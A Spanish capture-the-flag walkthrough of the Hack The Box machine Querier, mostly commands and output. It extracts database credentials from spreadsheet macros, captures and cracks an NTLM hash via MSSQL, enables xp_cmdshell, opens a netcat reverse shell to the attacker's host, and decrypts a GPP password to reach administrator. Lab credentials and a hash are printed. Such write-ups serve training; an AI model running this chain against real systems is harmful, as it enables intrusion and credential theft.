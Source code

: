 10.10.10.125 - Querier

![Querier](https://user-images.githubusercontent.com/96772264/202670219-d31b9300-527b-4c64-969f-b9527550057e.png)

----------------------
# Part 1: Enumeración
 
Puertos abiertos 135(rpc),139,445(smb),1433,5985. Nmap nos dice que:  
- 1433 -> puerto Microsoft SQL . Nombre del sistema QUERIER, Dominio HTB.LOCAL  
- Rpc sin credenciales ```rpcclient -U "" 10.10.10.125 -N``` -> Acceso denegado  

Como está el smb abierto miraremos si podemos acceder a algún archivo.
```console
└─$ smbmap -H 10.10.10.125 -u "test"
	Reports                        READ ONLY
└─$ smbclient "//10.10.10.125/Reports" -N
smb: \> dir
Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019
smb: \> get "Currency Volume Report.xlsm"
```

------------------------------
# Part 2: Extrayendo creds de las macros

Un archivo xlsm es un archivo de hojas de texto (el excel de toda la vida), que e abre con libreoffice. Abrimos la hoja de calculo pero aparte de ques está vacía 
dice que tiene macros (código)

![querier1](https://user-images.githubusercontent.com/96772264/202670532-f9871866-0f10-453e-9ecd-dfde1143e3a1.PNG)

Las macros se leen con una herramienta llamada olevba:  ```sudo -H pip install -U oletools[full]```
```console
└─$ olevba "Currency Volume Report.xlsm"
Private Sub Connect()
Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset
Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;
Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10; conn.Open

If conn.State = adStateOpen Then
  MsgBox "connection successful" 
  Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close
End If
```
------------------------------
# Part 3: mssql 

Según esto se está conectando a una base de datos sql ("volume") con las creds *"reporting:PcwTWTHRwryjc$c6"* para meter esos datos en la hoja de calculo.
Como son creds de una base de datos, podemos usarlas nosotros tambien ya que tenemos un puerto que usa windowssql:
```console
└─$ /usr/bin/impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1

# No, tenemos permiso así que no hay comandos, pero a lo mejor podemos capturar un hash
SQL> xp_dirtree "\\10.10.14.12\carpeta"
└─$ /usr/bin/impacket-smbserver carpeta $(pwd) -smb2support
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b5d17ef4aa88056ad273977e56a155fc:010100000000000080407d3ce8f9d8016f28bccc5409518100000000010010006f006100710055006900550049004900030010006f0061007100550069005500490049000200100058005a005000540078005500610057000400100058005a005000540078005500610057000700080080407d3ce8f9d801060004000200000008003000300000000000000000000000003000009b175c468e21ef38d90e68aba21eadedb3bfaec84eab5a5cf439e8d79e35d69e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
corporate568     (mssql-svc)

└─$ /usr/bin/impacket-mssqlclient mssql-svc:'corporate568'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1; reconfigure
SQL> sp_configure "xp_cmdshell",1; reconfigure
SQL> xp_cmdshell "whoami"
querier\mssql-svc
```
Como ya tengo ejecución remota de comandos, lo más comodo es traerse un binario nc.exe a donde se está ofreciendo la carpeta por smb para subirlo/ejecutarlo en la 
máquina víctima. 

------------------------------
# Part 4: Dentro del sistema, escalando privilegios

```console
SQL> xp_cmdshell \\10.10.14.12\carpeta\nc.exe -e cmd.exe 10.10.14.12 443
└─$ rlwrap nc -lnvp 443
C:\Windows\system32>
C:\Users\mssql-svc\Desktop> copy \\10.10.14.12\carpeta\enumeracion_windows.bat
```
El script nos encontró una ruta groups.xml:  
> *C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml*.   
Ahí había una clave cpassword que se rompe con ggp-decrypt:  
```console
└─$ gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!

└─$ impacket-wmiexec 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
C:\>whoami
querier\administrator
```
